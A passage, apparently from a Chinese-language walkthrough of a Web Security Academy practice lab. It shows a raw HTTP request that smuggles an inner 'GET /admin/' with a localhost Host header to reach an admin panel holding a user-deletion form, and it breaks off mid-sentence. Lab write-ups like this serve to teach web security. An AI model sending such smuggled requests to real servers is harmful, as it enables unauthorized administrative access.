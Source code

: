 [![](assets/1705301772-f3ba7558ccc453d1608c5f15fe50c04d.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114184230-9e15d096-b2c9-1.png)  
随后更改主机头为 localhost

```plain
POST /resources HTTP/1.1
Host: 0aad0076039d4f288088e4a6007e0045.web-security-academy.net
Cookie: session=rwdFIEqyq1RBngaBvRN99WsxWGpsUpeD
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 91


GET /admin/ HTTP/1.1
Host: localhost
```

[![](assets/1705301772-bfc43759f0e537b30166a0acd4d02eb1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240114184253-ab89aa90-b2c9-1.png)  
重新发送请求并在 61 秒后可以看到已经能成功访问管理面板，观察管理面板可以看到这里包含一个用于删除给定用户的 HTML 表单，记下以下详细信息：
